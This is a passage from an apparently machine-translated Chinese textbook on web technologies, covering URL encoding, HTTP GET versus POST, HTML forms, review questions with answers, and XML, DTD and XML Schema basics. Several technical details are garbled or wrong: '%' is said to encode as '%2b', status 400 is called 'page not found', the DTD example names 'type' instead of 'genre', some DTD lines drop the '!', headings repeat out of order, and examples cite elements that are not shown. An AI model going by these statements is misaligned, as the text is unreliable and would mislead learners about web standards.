由于有效的 URL 不能包含某些特殊字符（如空格和 HTML 中具有特殊含义的字符），因此使用 URL 编码来对查询字符串中的这些特殊字符进行编码。例如，空格被编码为 `+` 或 `%20`，制表符编码为 `%09`，换行符为 `%0a`，回车符为 `%0d`，`&` 编码为 `%26`，`;` 编码为 `%3b`，`/` 编码为 `%2f`，`?` 编码为 `%3f`，`:` 编码为 `%3a`，`#` 编码为 `%23`，`=` 编码为 `%3d`，`<` 编码为 `%3c`，`>` 编码为 `%3e`，`%` 编码为 `%2b`，`"` 编码为 `%22`，`'` 编码为 `%27`，`~` 编码为 `%7e`，`|` 编码为 `%7c`，`$` 编码为 `%24`，`*` 编码为 `%2a`，`(` 编码为 `%28`，`)` 编码为 `%29`，`,` 编码为 `%2c`。

例如，一个包含名称 `"lang"` 和 `"os"` 且值分别为 `"Java and C++"` 和 `"unix"` 的查询字符串，在 URL 中会被编码为 `?lang=Java+%26+C%2B%2B&os=unix`。

HTTP 是无状态协议。每当用户使用 Web 浏览器或程序通过 HTTP 与 Web 服务器交互时，HTTP 都没有用户最近与 Web 服务器交互的记忆。为了让 Web 服务器记住与用户的最近交互，它需要采用诸如 cookie 和服务器端会话对象（session objects）等机制来记录记录。

HTTP GET 和 HTTP POST 是 Web 浏览器或客户端程序与 Web 服务器交互的两种主要 HTTP 方法。当点击 Web 浏览器中的超链接时，Web 浏览器将向指定的 Web 服务器生成 HTTP GET 请求。要使用 HTTP POST 方法与 Web 服务器交互，你需要使用 HTML 表单。

### 2.4.2 HTML 表单

HTML 表单元素用于在 Web 浏览器中创建简单的用户界面，供用户与 Web 服务器交互。表单元素有两个主要属性：`method` 用于提交方法（常用的 get 或 post）以及 `action` 用于指定接受此请求的 Web 资源的 URL。以下是部署在你本地 Web 服务器中（demo 应用程序内部的 Java servlet）的文件 `echo.html` 的片段：

```html
<html xmlns="http://www.w3.org/1999/xhtml">
<body>
  <form method="post" action="http://localhost:8080/demo/echo">
    Enter your name: <input type="text" name="user"/><br/>
    <input type="submit" value="Submit"/>
    <input type="reset" value="Reset"/>
  </form>
</body>
</html>
```

HTML 元素可以包含文本和其他 HTML 元素。对于此处引入的用于收集用户数据的每种元素类型，它都支持一个名为 `name` 的参数。此 `name` 参数用于表示用户通过此输入指定的数据。服务器脚本或程序可以使用此 `name` 来访问用户指定的数据。

在这个示例中，使用一个输入元素 `<input type="text" name="user"/>` 来创建一个名为 `"user"` 的文本框。另一个类型为 `"submit"` 的输入元素 `<input type="submit" value="Submit"/>` 用于创建一个提交按钮。`value` 属性用于指定按钮上方的字符串。当用户点击提交按钮时，用户在表单中输入的所有数据将提交到目标服务器。

## 2.4 HTML 表单与 HTTP 基础

```text
HTTP/1.1 200 OK

Server: NCSA/1.3

Mime_version: 1.0

Content_type: text/html

Content_length: 2000
```

```html
<HTML>

</HTML>
```

HTTP 响应的第一行指定了浏览器支持的最新 HTTP 版本。第一行还提供了服务器的处理状态，常用值包括 OK 的 200、服务器未找到页面的 400 以及服务器内部错误的 500。第一行的第三项是解释状态码的简短消息。

前两个标头行声明了 Web 服务器的能力以及返回数据的元数据。在此示例中，Web 服务器基于名为“NCSA/1.3”的软件架构，并支持多用途互联网邮件扩展（MIME）规范 1.0，以便浏览器能够提交包含多个部分的文本或二进制数据。最后两行声明主体包含恰好 2000 字节的 HTML 数据。

浏览器将解析此 HTTP 响应，并在类似于下方的窗口中显示响应数据：



示例文件 `http://localhost:8080/demo/echoGet.html` 与 `http://localhost:8080/demo/echoPost.html` 相同，但表单属性 `method` 的值从 `"post"` 更改为 `"get"`。如果你在文本框中输入“Ada”并点击提交按钮，提交的数据将以 URL 查询字符串的形式存在（所示），且 HTTP GET 请求的实体体将为空。



# 第2章 使用 Web 标准的网页

### 2.4.3 HTTP GET 对比 HTTP POST

HTTP GET 最初设计用于从 Web 服务器下载静态网页，它使用短的查询字符串来指定网页的搜索标准。HTTP POST 最初设计用于向 Web 服务器提交数据，因此它使用请求实体主体作为数据流发送数据，其响应通常取决于提交的数据和提交状态。

尽管 HTTP GET 和 HTTP POST 都可以向 Web 服务器发送用户请求并从服务器检索 HTML 页面供浏览器展示，但它们存在以下微但重要的区别：

- HTTP GET 以查询字符串的形式发送数据，人们可以在提交者肩后看到提交的数据。
- Web 服务器用于容纳查询字符串数据的缓冲区大小有限，通常为 512 字节。如果用户提交的数据超过该限制，数据将被截断，Web 服务器可能会崩溃，或者提交的数据可能会覆盖服务器上的某些计算机代码，导致服务器运行隐藏在查询字符串数据中的恶性代码。最后一种情况被称为缓冲区溢出，是黑客控制服务器并传播病毒或蠕虫的常用方法。
- 默认情况下，浏览器会保留（缓存）HTTP GET 请求返回的网页副本，以避免对同一 URL 的后续请求并便于重用缓存副本。虽然如果请求的网页没有变化，这种方法确实提高性能，但如果网页发生变化或取决于用户提交的数据则可能是灾难性的。

## 2.5 总结

Web 技术基于分层 Web 架构，每一层都有定义明确的角色。HTML 是描述网页文档逻辑结构的 Web 语言，级联样式表（CSS）用于自定义网页文档的呈现。HTTP 是支持浏览器与 Web 服务器之间动态交互的应用层协议。通常情况下，HTTP POST 是客户端与 Web 应用交互的更安全的方式。

## 2.6 复习题

1. HTML 是一种用于在浏览器中指定数据呈现的语言。
   - a. 正确
   - b. 错误

2. CSS 是一种用于在浏览器中指定数据呈现的语言。
   - a. 正确
   - b. 错误

3. XHTML 和 HTML 是完全不同的语言。
   - a. 正确
   - b. 错误

4. 用户可以在 XHTML 文档中引入新标签。
   - a. 正确
   - b. 错误

5. 属性主要用于指定大块业务数据。
   - a. 正确
   - b. 错误

6. 哪些 HTML 元素通常用于定义网页的整体布局？
   - a. `table`
   - b. `form`
   - c. `div`

7. 你可以在不使用 CSS 的情况下自定义视图。
   - a. 正确
   - b. 错误

8. HTML 文档的多个元素可以具有相同的 `id` 属性值。
   - a. 正确
   - b. 错误

9. 属性 `id` 和 `class` 用于定义元素子集的特殊格式。
   - a. 正确
   - b. 错误

10. URL 用于指定网络资源的位置。
    - a. 正确
    - b. 错误

11. HTTP 是一种类似于 TCP/IP 的协议。
    - a. 正确
    - b. 错误

12. URL 中的端口号用于识别服务器过程。
    - a. 正确
    - b. 错误

13. 在提交大量数据时，HTTP GET 比 HTTP POST 更安全。
    - a. 正确
    - b. 错误

## 2.7 练习

14. 使用 HTTP GET 从文本框提交数据可能导致哪种结果？
    - a. 服务器崩溃
    - b. 服务器缓冲区溢出
    - c. 病毒或蠕虫在服务器上运行
    - d. 浏览器显示过时的数据

15. 使用 HTTP GET 请求股票价格。
    - a. 正确
    - b. 错误

16. 如果你不希望别人从背后看到你提交的内容，应该使用哪种方法提交到 Web 服务器？
    - a. HTTP GET
    - b. HTTP POST

17. 当你点击链接时，将向链接指定的服务器发送一个 HTTP GET 请求。
    - a. 正确
    - b. 错误

18. 你可以在查询字符串中显式使用空格字符。
    - a. 正确
    - b. 错误

19. CSS 是一种用于在浏览器中指定数据呈现的语言。
    - a. 正确
    - b. 错误

# 复习题答案

1. b 2. a 3. b 4. b 5. b 6. ac 7. b 8. b 9. a 10. a 11. b 12. a 13. b 14. abcd 15. b 16. b 17. a 18. b 19. a

## 2.7 练习

1. 使用 HTML 和 CSS 为本课程创建一个网站。主页面分为三个部分：顶部横幅用于网站标题和图片，窄的左底部部分用于导航链接，宽大的右底部部分用于用户在导航链接上选择链接的内容。你应该使用 CSS 分栏布局来实现方案。

2. 在 Tomcat 上创建一个 Web 应用，收集每个用户的信息并将数据回传给用户审核。你可以使用本章的演示 Web 应用作为项目基础。确保你的图形界面使用选择控件、文本框、文本区域、密码框、单选按钮和提交按钮。

## 2.9 参考文献

Laura Lemay and Rafe Colburn. Sams Teach Yourself Web Publication with HTML and CSS in One Hour a Day, Sams, 2006. ISBN 0-672-32886-0.

Faite Wempen. HTML and XHTML Step by Step, Microsoft Press, 2006. ISBN 0-7356-2263-9.

XHTML 1.0 The Extensible HyperText Markup Language (Second Edition). `http://www.w3.org/TR/xhtml/`

XHTML Tutorial. `http://www.w3schools.com/xhtml/`

# 第3章 Ajax 中的 XML

## 章节目标

- 介绍 XML 技术的动机和重要性
- 解释定义 XML 方言的主要技术
- 阐述如何解析、验证和处理 XML 文档
- 介绍用于转换 XML 文档的 XSL 和 XSLT

## 3.1 概述

为了两个信息系统能够无缝集成，它们必须要么采用相同的数据结构，要么能够准确解析伙伴的数据。这就是数据集成挑战，也是本章的重点。

不同的业务数据类型具有不同的逻辑结构。例如，医院患者的病历与银行交易记录的结构完全不同。为了高效处理，每种业务数据类型都必须以某种定义良好的格式表示。这种数据表示方式不是唯一的，不同的业务可能会以不同的数据格式表示同一种业务数据。例如，不同的医院以不同的数据格式表示其患者的病历。这种不一致性可能会导致合作业务的信息系统集成变得困难。

另一方面，为了让计算机处理和存储某种类型的业务数据，每个信息系统都需要用特定的编程语言实现业务部门所采用的数据格式。不同的编程语言在指定同一种业务数据类型时具有不同的数据规范机制和数据类型。如果两个合作的信息系统使用不同的编程语言实现，它们在处理伙伴数据时可能会遇到困难。计算机硬件、操作系统和网络协议的属性也可能使这种集成变得复杂。

XML，即可扩展标记语言，是一种主要为业务数据规范和集成而引入的技术。XML 是 SGML（标准通用标记语言）的简化后代。与 HTML 一样，XML 使用标签和属性来标记数据。但 XML 是通用的，没有特定的应用领域。它不限制可以使用何种标签或属性名称。

对于不同类型的业务数据，你可能需要定义具体的标记语言来定义数据结构。每种具体的标记语言都需要遵循 XML 的通用语法结构，但使用通过 XML 语法规范机制（如 DTD（文档类型定义）或 XML Schema）预定义的标签和属性名称，这些将在后续章节中介绍。正因如此，人们通常说 XML 是用于定义特定应用领域标记语言的元语言。

## 3.2 XML 文档

这些标记语言被称为 XML 方言（dialects），它们只能使用预定义的标签和属性。每个 XML 方言文档都是 XML 文档的一个特例，被称为该 XML 方言规范的实例文档。流行的 XML 方言包括：用于指定网页结构的 XHTML、用于指定表示远程方法调用的消息结构的 SOAP（最初代表简单对象访问协议，最近指代面向服务的架构协议）以及用于指定业务流程的 BPEL（业务过程执行语言）。

对于特定类型的业务数据，不同的信息系统对其逻辑结构可能有不同的规范机制。一种 XML 方言可以被合作系统定义并采用，作为这些系统之间数据交换的中间语言。对于系统而言，它只需要在其专有格式与接受的 XML 方言格式之间转换数据的能力。由于 XML 处理功能已集成到大多数操作系统并免费提供，这种基于 XML 的数据集成是成本效益的。

本章首先介绍 XML 文档的语法。然后使用 DTD 和 XML Schema 机制来定义指定逻辑数据结构的 XML 方言。随后将引入 XSL（扩展样式表语言）和 XSLT（XSL 转换）技术，将 XML 文档转换为其他数据格式。

## 3.2 XML 文档

XML 文档包含一个可选的 XML 声明，随后是一个顶层元素，该元素可能包含嵌套元素和文本，如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- This is an XML document -->
<div id="1">
  <title>Gone with the Wind</title>
  <format>Movie</format>
  <genre>Classic</genre>
</div>
```

### 3.2.1 XML 声明

如果使用，XML 声明必须是 XML 文档的第一行。它声明了文档的版本和编码。如果 XML 文档没有声明，XML 解析器将假设版本为 1.0。由于这些默认值没有被标准化，因此声明它们更为安全，可以使 XML 解析器具有可预测的行为。

### 3.2.2 Unicode 编码

XML 数据基于 Unicode (`http://unicode.org`)，Unicode 是一种旨在支持全球语言交换的行业标准编码系统。Unicode 标准为大多数语言的字符分配了唯一的整数，称为代码点（code points），提供了将整数存储为字节序列的方法。

有三种方法，命名为 UTF-8、UTF-16 和 UTF-32，UTF 代表 Unicode 转换。UTF-8 将每个字符存储为一到四个 8 位值（128 个 US-ASCII 字符占 1 字节，其余字符占 2 或 3 字节，某些字符占 4 字节），如果数据基于 US-ASCII 字符，它是空间效率最高的编码方法。

### 3.2.3 标签、元素和属性

每个 XML 元素由起始标签、结束标签以及嵌套的元素或文本组成。匹配的起始标签和结束标签必须基于相同的标签名称，该名称也称为元素名称。起始和结束标签之间的嵌套元素或文本被称为元素的值。

例如，`<tagName>` 的标签是它的起始标签，`</tagName>` 是结束标签。任何由字母开头、后跟可选字母或数字且不以 `"xml"` 的任何变体开头的字符串都是有效的 XML 标签名。标签名对大小写敏感。未嵌套在其他元素中的元素被称为根元素或顶层元素。根据规范，一个 XML 文档可以且只有一个根元素。

如果元素没有值，例如 `<tagName></tagName>`，可以缩写为更简洁的形式 `<tagName/>`。


元素可以嵌套。在之前的示例中，`title`、`format` 和 `genre` 元素嵌套在`<div>`中。元素之间不能部分重叠。例如，`<a><b>data</b></b></a>`包含了两个部分重叠的`a`和`b`元素，这在有效的 XML 文档中是不允许的。为了避免元素部分重叠，先开始元素必须后结束。

元素的起始标签可以包含一个或多个属性规范，格式为空格分隔的`属性名="值"`，例如`<div id="1">`，其中`<div>`元素具有属性`id`，其值为 1。属性匹配必须包含在成对的单引号（`'`）或成对的双直引号（`"`）中。任何由字母开头、后跟可选字母或数字序列的字符串都可以作为有效的属性名。虽然 XML 文档的大部分信息是以元素值的形式存在的，但属性通常用于为元素指定短分类值。

### 3.2.4 使用特殊字符

以下五个字符用于识别 XML 文档结构，因此不能直接在 XML 数据中使用：`<`、`>`、`”`、`、`、`’`。你需要将它们作为 XML 元素或属性的值，需要使用`&amp;`表示`&`，`&lt;`表示`<`，`&quot;`表示`"`，`&apos;`表示`'`。这些字符的原始表示形式是实体引用。

例如，以下 XML 元素是无效的：

```xml
<Organization>IBM & Microsoft</Organization>
```

而以下内容是有效的 XML 数据：

```xml
<Organization>IBM &amp; Microsoft</Organization>
```

如果你的键盘不允许你输入所需的字符，或者你想使用超出所选编码方案范围的字符，可以使用一种名为“实体引用”的符号表示。如果你需要的字符是十六进制 Unicode 节点`nnn`，你可以使用语法`&#xxx;`在 XML 文档中表示它。如果你需要的字符是十进制 Unicode 节点`nnn`，你可以使用语法`&#nnnn;`在 XML 文档中表示它。

如果你在文档中多次使用特殊字符，可以在 DTD 中为它定义一个实体名称，这在本章的 3.3.3 节中将介绍，实体为实体引用分配一个字符串名称。例如，如果你的键盘没有欧元符号（€），你可以输入`&#8364;`在 XML 文档中表示它，其中 8364 是欧元符号的十进制 Unicode 代码点。

如果你需要在文档中多次使用欧元符号，可以通过 DTD 声明定义一个实体名称，例如`euro`：`<!ENTITY euro "&#8364;">`（更详细的解释将在 DTD 节中提供）。然后你可以在 XML 文档中使用更具意义的实体引用`&euro;`。

通常情况下，如果一个字符有一个名称`c`，你可以在 XML 文档用语法`&#ccc;`替换它。实体名称`&amp;`、`&lt;`、`&gt;`、`&quot;`和`&apos;`分别为`&`、`<`、`>`、`"`和`'`预定义，你可以在 XML 文档中使用它们而无需在 DTD 中声明。第 30 页的表列出了 HTML 实体。第三列中的实体数字也可以用于 XML 文档，但 XML 规范中仅预定义了前五个实体名称。

### 3.2.5 良好的 XML 文档

良好的 XML 文档必须符合以下规则（但不限于此）：

- 非空元素由一对匹配的起始标签和结束标签限定。
- 空元素可以以自包含标签的形式存在，例如`<tagName/>`。
- 所有属性值都包含在成对的单引号（‘）或双引号（”）中。
- 元素可以嵌套但不能部分重叠。每个非根元素必须完全包含在另一个元素中。
- 文档符合其声明或默认的字符编码。

SAX 和 DOM XML 解析器都会检查输入的 XML 文档是否良好。如果不是，解析过程将带有错误消息终止。

## 3.3 文档类型定义（DTD）

DTD 是定义 XML 方言的第一种机制。事实上，它是 XML 规范 1.0 的一部分，因此所有 XML 处理器都支持它。但 DTD 本身并不遵循通用的 XML 语法。以下是之前的 DVD XML 文档的 DTD 声明示例（内容在示例文件`dvd.dtd`中）：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ELEMENT library (dvd+)>
<!ELEMENT dvd (title, format, type)>
<!ELEMENT title (#PCDATA)>
<!ELEMENT format (#PCDATA)>
<!ELEMENT genre (#PCDATA)>
<!ATTLIST dvd id CDATA #REQUIRED>
```

由于 DTD 是 XML 规范的一部分，你应该从 XML 版本和字符编码的 XML 声明开始它的声明。

### 3.3.1 声明元素

要在 XML 方言中声明新的 XML 元素或标签名（元素类型），使用以下语法：

```text
<ELEMENT elementName (elementContent)>
```

#### 3.3.1.1 空元素

空元素使用括号中的关键字`EMPTY`进行声明：

```text
<ELEMENT elementName (EMPTY)>
```

例如，`<ELEMENT br>`声明`br`是一个空元素。

#### 3.3.1.2 带有文本或通用数据的元素

带有文本或通用数据的元素使用以下形式之一的括号内数据类型声明：

```text
<ELEMENT elementName (#CDATA)>
<ELEMENT elementName (#PCDATA)>
<ELEMENT elementName (ANY)>
```

`#CDATA`意味着该元素包含字符数据，这些数据不应被解析器用于标记（如实体引用或嵌套元素）的解析。

`#PCDATA`意味着该元素包含解析器用于标记的数据，包括实体引用，但不包括嵌套元素。

关键字`ANY`声明一个带有任何内容作为值的元素，包括文本、实体引用和嵌套元素。嵌套在此元素中的任何元素也必须被声明。`ANY`主要用于 XML 方言的开发阶段；不应用于最终的 XML 方言规范。

例如，`<ELEMENT index (#CDATA)>`声明了一个新的`index`元素，以便 XML 解析器能够进一步识别标记，排除嵌套元素。

#### 3.3.1.3 带有子元素的元素（序列）

带有子元素的元素使用括号内的数据类型声明：

```text
<!ELEMENT index (term, pages)>
```

其中`term, pages`是子元素的序列。

例如，`<!ELEMENT footnote (message)>`声明了包含`message`元素的类型。

如果元素可以多次出现，可以使用符号`*`语法：

```text
<!ELEMENT elementName (message*)
```

这里`*`表示该元素可以出现零或多次。

例如，`<!ELEMENT footnote (message*)`声明了包含`message`元素的类型。

如果你将语法中的符号`*`改为`+`则：

```text
<!ELEMENT elementName (message+)>
```

这里`+`表示元素必须出现一次或多次。

例如，`<!ELEMENT footnote (message+)>`声明了包含`message`元素的类型。

声明元素的零或一次出现使用语法`?`：

```text
<!ELEMENT elementName (message?)>
```

这里`?`表示该元素可以出现零或一次。

例如，`<ELEMENT footnote (message?)`声明了元素包含备选元素。

如果元素可以包含备选元素，你可以使用管道符号`|`来分隔它们。例如，DTD 声明：

```text
<!ELEMENT section (section1 | section2?)
```

指定`section`元素包含`section1`或`section2`，但不同者兼备。

#### 3.3.1.4 声明混合内容

例如，查看声明：

```text
<!ELEMENT email (to*,from,message*,#PCDATA)>
```

上述示例声明`email`元素必须按顺序包含至少一个`to`元素、一个`from`元素、多个`message`元素以及一些其他的解析字符数据。

### 3.3.2 声明属性

在 DTD 中，XML 元素属性通过`ATTLIST`声明。属性声明具有以下语法：

```text
<!ATTLIST elementName attributeName attributeType defaultValue>
```

从上述语法可以看出，`ATTLIST`指定了拥有属性的元素、属性名称、属性类型以及默认属性值。

属性类型可以包含以下值：

| 取值 | 解释 |
|---|---|
| `CDATA` | 值是字符数据。 |
| `eval1\|eval2...` | 值必须是枚举值之一。 |
| `ID` | 值是唯一的 ID。 |
| `IDREF` | 值是另一个元素的 ID 值。 |
| `ENTITY` | 值是实体。 |

属性默认值可以包含以下值：

| 取值 | 解释 |
|---|---|
| `Default-value` | 属性是可选的并具有此默认值。 |
| `#REQUIRED` | 元素必须包含该属性。 |
| `#IMPLIED` | 属性是可选的。 |
| `#FIXED value` | 属性值固定为指定的值。 |

## 3.3 文档类型定义（DTD）

DTD 示例：

```text
<!ELEMENT circle EMPTY>
<!ATTLIST circle radius "1">
```

XML 示例：

```xml
<circle radius="10"></circle>
```

在前面的示例中，元素`circle`被定义为一个空元素，并有一个类型为 CDATA 的属性`radius`。`radius`属性的默认值为 1。第一个`circle`元素的半径为 10，第二个`circle`元素的半径为 1。

如果你想让一个属性可选可选，但不想为其提供默认值，可以使用特殊值`#IMPLIED`。在前面的示例中，如果你将属性声明更改为：

```text
<!ATTLIST circle radius CDATA #IMPLIED>
```

那么第二个`circle`元素将没有半径值。

另一方面，如果你将前面的属性声明更改为：

```text
<!ATTLIST circle radius CDATA #REQUIRED>
```

那么第二个`circle`元素是无效的，并且会被 XML 解析器拒绝，因为缺少了`radius`属性的必需值。

如果你将前面的属性声明更改为：

```text
<!ATTLIST circle radius CDATA #FIXED "10">
```

那么所有的`circle`元素必须指定 10 作为它们的半径值，第二个`circle`元素是无效的，会被 XML 解析器拒绝，因为它缺少了`radius`属性的必需值 10。

下一行为`circle`元素声明了一个`type`属性：

```text
<!ATTLIST circle type (solid|outline) "solid">
```

它可以取`solid`或`outline`作为其值。如果`circle`元素没有指定`type`属性值，它将具有默认值`solid`。

### 3.3.3 声明实体名称

实体名称可以声明为字符或字符串的别名或快捷方式。它主要用于表示必须用 Unicode 指定的特殊字符，或者在 XML 文档中多次出现的长字符串。

# 第 3 章 XML—Ajax 中的 X

要声明一个`entityName`，请使用以下语法：

```text
<!ENTITY entityName "entityValue">
```

其中`entityName`可以是任何由字母开头、后跟可选字母或数字序列的字符串。以下两个声明将`euro`定义为欧元符号（€）的实体名称，将`cs`定义为字符串“Computer Science”的实体名称。

```text
<!ENTITY euro "#8364;">
<!ENTITY cs "Computer Science">
```

XML 文档可以在文本中使用语法`&entityName;`来表示与`entityName`相关的字符或字符串。例如，如果一个 XML 文档包含了上述两个 DTD 声明，那么其文本中的`&euro;`和`&cs;`将被 XML 解析器读取为相同的 € 和 Computer Science。第 30 页的表 2.2.1 列出了常用的 HTML 实体。第三列中的实体编号也可以用于 XML 文档，但 XML 规范中仅预定义了前五个实体名称。

### 3.3.4 将 DTD 声明与 XML 文档关联

要指定一个 XML 文档是某个 DTD 声明所指定的 XML 方言的实例，你可以将这组 DTD 声明包含在 XML 文档内部（这种方法用处较小但便于教学），或者将 DTD 声明保存在单独的 DTD 文件并将 XML 文档链接到它（这是常见的做法）。

如果要把 DTD 声明包含在 XML 文档中，它们被封装在`DOCTYPE`定义中，语法如下，且`DOCTYPE`定义应该位于 XML 声明和 XML 文档的根元素之间。例如，文件`dtd_embedded.xml`具有如下内容：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE library [
<!ELEMENT library (dvd+)>
<!ELEMENT dvd (title, format, genre)>
<!ELEMENT title (#PCDATA)>
<!ELEMENT format (#CDATA)>
<!ELEMENT genre (#CDATA)>
<!ATTLIST dvd id CDATA #REQUIRED>
]>
<library>
  <dvd id="1">
    <title>Gone with the Wind</title>
    <format>Movie</format>
    <genre>Classic</genre>
  </dvd>
  <dvd id="2">
    <title>Star Trek</title>
    <format>TV Series</format>
    <genre>Science fiction</genre>
  </dvd>
</library>
```

要将 DTD 声明链接到 XML 文档，请对 XML 声明和根元素使用以下`DOCTYPE`定义：

```text
<!DOCTYPE rootElement SYSTEM DTD-URL>
```

其中`DTD-URL`可以是本地文件系统上 DTD 文件的路径，也可以是部署在互联网上的 DTD 文件的 URL。文件`file.xml`的以下内容显示了它如何链接到本地文件系统的 DTD 文件`dvd.dtd`：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE library SYSTEM "dvd.dtd">
<library>
  <dvd id="1">
    <title>Gone with the Wind</title>
    <format>Movie</format>
    <genre>Classic</genre>
  </dvd>
  <dvd id="2">
    <title>Star Trek</title>
    <format>TV Series</format>
    <genre>Science fiction</genre>
  </dvd>
</library>
```

## 3.4 XML Schema

尽管 DTD 是 XML 规范的一部分并被所有 XML 处理器支持，但它在定义复杂数据结构的表达力方面较弱。XML Schema (`http://www.w3.org/XML/Schema`)是定义 XML 方言的另一种可选行业标准。XML Schema 本身是一种 XML 方言；因此，它可以利用许多现有的 XML 技术和处理器。它还有一种更详细的方式来定义数据包含的内容，并促进声明的复用，使得常见的声明可以提取出来被多个元素或属性声明引用。

以下是之前 XML 的 XML Schema 声明示例，文件`dvd.xsd`包含了此声明。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:element name="library">
    <xs:complexType>
      <xs:sequence>
        <xs:element name="dvd" minOccurs="0" maxOccurs="unbounded">
          <xs:complexType>
            <xs:sequence>
              <xs:element name="title" type="xs:string"/>
              <xs:element name="format" type="xs:string"/>
              <xs:element name="genre" type="xs:string"/>
            </xs:sequence>
          <xs:attribute name="id" type="xs:integer" use="required"/>
          </xs:complexType>
        </xs:element>
      </xs:sequence>
    </xs:complexType>
  </xs:element>
</xs:schema>
```

### 3.4.1 命名空间


为了方便使用，XML 元素和属性名称应该是短且有意义的。因此，不同个人或公司定义的 XML 方言倾向于使用名称。如果一个 XML 文档使用了这些方言，可能会发生命名冲突。引入命名空间是为了避免命名冲突。

一组 XML 元素、属性和数据类型可以与命名空间关联，命名空间可以是任何唯一的字符串。为了确保唯一性，命名空间通常与声明的公司或机构相关。例如，`http://www.w3.org/2001/XMLSchema` 是 XML Schema 2 版本的命名空间，而 `http://www.w3.org/1999/xhtml/` 是 XHTML 1.0 的命名空间，正如上一章所有 HTML 示例所示（参见第 2.2.2 节）。字符串 `http://cis.pace.edu` 可以是 Pace 大学计算机科学与信息系统定义的另一个命名空间。虽然命名空间通常使用 URL，但并非如此。命名空间通常有相应的网络资源。

为了指定 XML 文档中元素、属性或数据类型的名称，它们应该通过命名空间限定。因为命名空间通常只有一到四个字符，它们可以被声明为表示 XML 文档中的完整名称。每个 XML 文档都可以选择自己的命名空间前缀。在前面的示例中，`xs` 是命名空间 `http://www.w3.org/2001/XMLSchema` 的 XML 前缀。命名空间前缀与命名空间的关联在根元素的起始标签中以属性规范的形式指定，只是命名有自己的前缀 `xmlns:`。例如，为了指定 `xs` 是命名空间 `http://www.w3.org/2001/XMLSchema` 的命名空间前缀，XML 文档中使用以下两行：

```xml
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
```

在 XML 文档中，如果元素通过其命名空间前缀限定，如 `xs:element` 用于声明在 `http://www.w3.org/2001/XMLSchema` 命名空间中的元素，其属性和嵌套元素属于同一个命名空间。

如果一个 XML 文档使用了多个命名空间，但大多数元素和属性使用同一个命名空间，你可以使用 `xmlns` 属性在根元素的起始标签中声明默认命名空间，该未由命名空间前缀限定的元素、属性或数据类型将被假设属于此默认命名空间。例如，如果 XML 文档在其根元素的起始标签中具有以下属性声明：

```xml
xmlns="http://csis.pace.edu"
```

那么该文档中的所有限定元素和属性应属于命名空间 `http://csis.pace.edu`。

如果 XML Schema 文档声明了一个属于特定命名空间的 XML 方言，其根元素应该包含一个 `targetNamespace` 属性，以指定该方言中声明的元素、属性和数据类型的目标命名空间。例如，如果 XML Schema 文档的根元素包含了属性 `targetNamespace`，如下：

```xml
<xs:schema targetNamespace="http://csis.pace.edu" >......->
```

那么文档中声明的所有元素、属性和数据类型都属于命名空间 `http://csis.pace.edu`。示例文件 `dvd-ns.xsd` 定义了与 `dvd.xsd` 相同的内容，但它将所有元素和属性声明在命名空间 `http://csis.pace.edu` 下。在 XML Schema 根元素中具有这样的 `targetNamespace` 属性时，该 XML 方言不属于任何命名空间（如前面的示例所示）。

直接嵌套在根 `schema` 元素中的所有元素和数据类型的 XML Schema 被称为全局声明。通常，属性声明嵌套在其所属元素的声明内部，而嵌套元素的声明嵌套在其宿元素的声明内部。全局声明的正确使用可以促进声明的重用，你很快就会看到。

在以下示例中，假设 XML Schema 命名空间的前缀为 `xs`。

## 3.4 XML Schema

### 3.4.2 声明简单元素和属性

简单元素是一种 XML 元素，它只能包含基于 XML Schema 规范定义的简单数据类型（包括 `string`、`decimal`、`integer`、`positiveInteger`、`boolean`、`date`、`time`、`anyType`）、派自这些简单类型的用户自定义类型。它不能包含任何其他元素或其他属性。以下是一些示例。

要声明可以接受任何字符串值的元素 `color`，请使用：

```xml
<xs:element name="color" type="xs:string"/>
```

结果是元素 `<color>blue</color>` 的值为 `"blue"`，而元素 `<color/>` 将没有值。

要声明可以接受任何字符串值并以 `"red"` 为默认值的元素 `color`，请使用：

```xml
<xs:element name="color" type="xs:string"
default="red"/>
```

结果是元素 `<color>blue</color>` 的值为 `"blue"`，而 `<color/>` 将具有默认值 `"red"`。

要声明只能接受固定字符串值 `"red"` 的元素 `color`，请使用：

```xml
<xs:element name="color" type="xs:string"
fixed="red"/>
```

结果是元素 `<color>red</color>` 是正确的，元素 `<color>blue</color>` 是无效的，而元素 `<color/>` 将具有固定（默认）值 `"red"`。

尽管简单元素没有属性，但 XML Schema 中声明属性的语法与简单元素相似。你只需要将前面示例中的 `xs:element` 更改为 `xs:attribute`。例如：

```xml
<xs:attribute name="lang" type="xs:string"
default="EN"/>
```

这声明 `lang` 是类型为 `xs:string` 的属性，其默认值为 `EN`。此类属性声明始终嵌入在它们所属的复杂元素声明中。

属性默认是可选的。你可以使用元素的 `use` 属性来指定声明的属性对于其宿元素是强制要求的。例如，如果前面的属性没有默认值，但对其宿元素是必须指定的，你可以使用以下声明：

```xml
<xs:attribute name="lang" type="xs:string"
use="required"/>
```

### 3.4.3 声明复杂元素

复杂元素是一种包含其他元素和/或属性的 XML 元素。复杂元素有四种类型：

- 空元素
- 仅包含其他元素的元素
- 仅包含自定义简单类型或属性的元素
- 同时包含其他元素和文本的元素

要声明 `product` 是一个带有可选整数的空元素类型，请使用：

```xml
<xs:element name="product">
  <xs:complexType>
